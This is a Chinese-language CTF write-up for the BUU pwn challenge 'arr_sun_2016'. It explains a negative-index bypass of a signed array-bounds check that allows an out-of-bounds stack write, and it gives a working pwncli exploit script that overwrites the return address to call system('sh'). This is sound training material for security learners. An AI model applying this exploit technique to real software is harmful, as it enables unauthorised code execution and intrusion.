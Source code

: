 ```yaml
---
title: arr_sun_2016
date: 2022-12-10 13:33:51
tags: [CTF, BUU, PWN, WP]
categories: 
    - CTF
    - BUU
    - Pwn
comment: true
---
```


# 分析
![](1.png)
- 没开PIE和RELRO

![](2.png)
- 有system函数

![](3.png)
- v1为int，输入负数绕过对v1的检测，v5[v1]时将v1当成unsigned int用，因此可以修改v5后任意地址的值

![](4.png)
- 返回地址下面有一个栈地址，可以当作sh的指针

# 思路

- 修改返回地址为ret，再call system，目的是越过返回地址和栈地址中间的那个栈帧
- 修改栈地址为sh，距离返回地址的偏移为0x24

# Exp
``` Python
#!/usr/bin/env python3
# Date: 2022-12-03 19:43:34
# Link: https://github.com/RoderickChan/pwncli
# Usage:
#     Debug : python3 exp.py debug elf-file-path -t -b malloc
#     Remote: python3 exp.py remote elf-file-path ip:port

from pwncli import *
cli_script()


io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

rl()
sl("asd")
for i in range(7):
    rl()
    sl(str(i))
    rl()
    sl(str(500))

rl()
sl("-2147483635")
rl()
sl("134514065")
rl()
sl("-2147483634")
rl()
sl("134514055")
rl()
sl("-2147483626")
rl()
sl("26739")
ia()
```

![](5.png)
